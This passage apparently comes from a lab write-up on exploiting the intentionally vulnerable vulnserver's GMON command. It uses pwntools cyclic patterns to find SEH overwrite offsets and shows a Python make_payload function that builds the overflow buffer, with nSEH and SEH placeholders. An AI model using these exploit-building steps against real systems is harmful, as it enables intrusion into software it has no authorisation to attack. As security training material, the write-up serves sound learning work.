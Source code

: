 To create a 5000 byte pattern in pwn tools, drop into the python REPL and run the following command:

```python
from pwn import *
cyclic(5000)
```

After putting the output in to our exploit code, the payload function currently looks like this:

```python
def make_payload():
    prepend = b"GMON /.:/"
    buf = b'aa[---SNIPPED FOR BEREVITY---]xyabxza'
    #buffer_space = 5000 - len(pattern) - len(eip) - len(nopsled) - len(buf)
    #payload_struct = pattern + eip +  nopsled + buf + b'C'*buffer_space
    final_payload = prepend + buf
    return final_payload
```

After running our code we can see that the SEH record is over written with 0x6B6A6261 & 0x6A6A6261

![image-20200413160509044](/assets/images/vulnserver/GMON/image-20200413160509044.png)



To find where these are in our buffer we need to use the cyclic_find method from pwn tools:

```python
[13-Apr-20 20:38:20] 192.168.1.64 GMON > python3
Python 3.6.7 (default, Oct 22 2018, 11:32:17) 
[GCC 8.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> cyclic_find(0x6B6A6261)
3535
>>> cyclic_find(0x6A6A6261)
3531
```

Form this we can see our offsets are right after each other, we can further confirm this by making the following modifications to our payload method:

```python
def make_payload():
    prepend = b"GMON /.:/"
    pattern = b"A"*3531 #Our standard junk buffer to get to the SEH overwrite
    nseh = b"BBBB" # The value for our NSEH
    seh = b"CCCC" # The value for the SEH
    buffer_space = 5000 - len(pattern) - len(nseh) - len(seh)
    payload_struct = pattern + nseh + seh + b'D'*buffer_space   # buffer padding to cause the buffer overflow
    final_payload = prepend + payload_struct 
    return final_payload
```
